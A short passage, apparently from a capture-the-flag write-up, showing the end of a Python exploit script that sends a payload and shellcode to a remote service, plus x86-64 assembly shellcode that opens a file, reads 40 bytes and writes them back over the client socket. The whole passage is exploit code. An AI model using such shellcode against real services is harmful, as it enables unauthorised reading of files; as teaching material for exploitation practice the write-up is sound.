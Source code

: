 ```python
    s = createHang()
    print s.recv()

    s.sendline(payload)
    s.sendline(shellcode)

    print s.recv(40)

if __name__ == '__main__':
    main()
```

Shellcode:

```nasm
nop
nop
nop
; Open file
mov rax, 2
mov rdi, 0x601000
xor rsi, rsi
xor rdx, rdx
syscall
; Read file
mov rdi, rax
xor rax, rax
mov rsi, 0x601c00
mov rdx, 40
syscall
; Write buffer to client fd
mov rax, 1
mov rdi, 4
syscall
nop
nop
nop
```

![lister](/assets/img/GRIMM-hax-combined/34.PNG)
